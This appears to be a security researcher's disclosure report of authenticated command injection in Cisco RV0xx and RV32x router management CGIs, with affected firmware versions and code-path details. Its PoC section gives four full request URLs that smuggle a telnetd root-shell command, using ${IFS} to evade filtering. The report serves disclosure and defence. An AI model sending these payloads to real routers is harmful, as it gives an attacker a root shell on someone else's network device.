

# Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV016 Multi-WAN VPN Router

Cisco RV042 Dual WAN VPN Router

Cisco RV042G Dual Gigabit WAN VPN Router

Cisco RV082 Dual WAN VPN Router

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

RV0xx Series Routers firmware : 4.2.3.14 (the latest release version)

RV32x Series Routers firmware : 1.5.1.13 (the latest release version)

**Firmware download address:** 

[RV0xx Series Routers firmware](https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14 "https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14")

[RV32x Series Routers firmware](https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13 "https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13")

# Overview

`Cisco RV0xx and RV32x Series VPN Routers` was detected with `command injection vulnerabilities`. These vulnerabilities are caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerabilities were detected in the **`/usr/local/EasyAccess/www/cgi-bin/config.exp`** binary. In addition, these vulnerabilities also exist in the similar binary file **`/usr/local/EasyAccess/www/cgi-bin/config_mirror.exp`**.

In the `main` function. We can see that when the string `update_CertStatus&` is included in our request, it will enter the `exportconfig_updateCertsStatus` function.

In the `exportconfig_updateCertsStatus` function. Between the two `&`, the data splited by `,` and before `.` is spelled unchecked into `acStack4400` and eventually concatenated into `acStack4144` and executed as an argument to the `system` function.

Therefore, an attacker can execute any command on a remote device by injecting malicious commands between `&`, separated by `,` and before `.`.

Similarly, in the `exportconfig_updateCertsStatus` function. After the second `&`, the data splited by `,` and before `.` is spelled unchecked into `acStack4400` and eventually concatenated into `acStack4144` and executed as an argument to the `system` function.

Therefore, an attacker also can execute any command on a remote device by injecting malicious commands after the second `&`, separated by `,` and before `.`.

# Poc

However, in the actual test, we found that these devices filtered spaces, so we can't inject some commands directly. But it is possible to use `${IFS}` instead of space to bypass the filtering. Therefore, we can do this by injecting the `/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh` command.

## Case 1

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?update_CertStatus&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;.abc,123.abc&123.abc,123.abc` by the `POST` request.

## Case 2

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?update_CertStatus&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;.abc,123.abc&123.abc,123.abc` by the `POST` request.

## Case 3

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?update_CertStatus&123.abc,123.abc&123.abc,;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;.abc` by the `POST` request.

## Case 4

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?update_CertStatus&123.abc,123.abc&123.abc,;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;.abc` by the `POST` request.

# Attack Demo

Before the attack, scan the ports of the router to ensure that port `23` of the `telnet` service is not enabled.

Follow the POC above to make the request.

**Case 1 : **

**Case 3 : **

After the attack is completed, we performed a port scan again and found that the `telnet` service has been successfully started. And then, we successfully logged into the device remotely and got the `root shell` of the device.

